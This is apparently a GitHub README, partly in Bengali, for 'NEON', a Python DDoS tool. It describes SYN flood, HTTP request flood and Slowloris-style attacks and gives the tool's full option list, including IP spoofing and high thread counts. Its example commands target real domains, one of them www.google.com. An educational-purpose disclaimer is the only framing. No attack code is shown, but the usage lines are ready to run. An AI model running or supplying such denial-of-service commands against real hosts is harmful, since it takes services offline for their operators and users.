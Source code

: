

# NEON | ফাক দা ওয়েব
* এই স্ক্রিপ্টে 3 ধরনের DDos ​​আক্রমণ রয়েছে : SYNFLOOD | REQUEST | Pyslow
* স্ক্রিপ্টে পাইসলো অ্যাটাক টাইপ আছে যা Slowloris অ্যাটাকের মতো

# Note
* আমি এই স্ক্রিপ্টটি শিক্ষাগত উদ্দেশ্যে লিখেছি, ধ্বংসাত্মক উদ্দেশ্যে এবং বেআইনি কাজের জন্য নয়, তাই আমি এর জন্য দায়ী থাকব না


# Requires module
* termcolor
* colorama



# Usage
       
 NEON                                     
        DDos Python Script
         Author: Truthfuly                                              
         Github: https://github.com/Truthfuly                       
        Version: 1.0 

    usage: ./pyddos -t [target] -p [port] -t [number threads]

    optional arguments:
    -h, --help       show this help message and exit
    -v, --version    show program's version number and exit

    options:

    -d <ip|domain>   Specify your target such an ip or domain name
    -t <float>       Set timeout for socket
    -T <int>         Set threads number for connection (default = 1000)
    -p <int>         Specify port target (default = 80) |Only required with pyslow attack|
    -s <int>         Set sleep time for reconnection
    -i <ip address>  Specify spoofed ip unless use fake ip
    -Request         Enable request target
    -Synflood        Enable synflood attack
    -Pyslow          Enable pyslow attack
    --fakeip         Option to create fake ip if not specify spoofed ip

    Example:
         ./pyddos -d www.example.com -p 80 -T 2000 -Pyslow
        ./pyddos -d www.domain.com -s 100 -Request
        ./pyddos -d www.google.com -Synflood -T 5000 -t 10.0

